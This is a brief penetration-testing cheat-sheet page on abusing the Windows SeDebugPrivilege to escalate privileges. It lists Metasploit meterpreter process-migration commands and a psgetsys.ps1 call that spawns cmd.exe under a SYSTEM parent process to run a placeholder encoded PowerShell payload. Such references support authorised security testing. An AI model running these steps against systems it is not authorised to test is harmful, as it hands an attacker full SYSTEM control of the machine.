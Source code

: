 ```yaml
---
title: "SeDebugPrivilege"
date: 2024-8-2
tags: ["SeDebugPrivilege", "Windows", "potato", "privesc", "fullpower"]
---
```


---
### Tools

{{< tab set1 tab1 active >}}Metasploit{{< /tab >}}
{{< tab set1 tab2 >}}psgetsys.ps1{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# Inside meterpreter
ps winlogon
```

```bash
# Explorer.exe is a good candidate
migrate <PID>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```powershell
# Import module
. .\psgetsys.ps1
```

```powershell
ImpersonateFromParentPid -ppid <PID> -command "c:\windows\system32\cmd.exe" -cmdargs "/c <powershell #3 Base64>"
```

</div>

<small>*Ref: [psgetsys](https://github.com/decoder-it/psgetsystem)*</small>

{{< /tabcontent >}}

<br>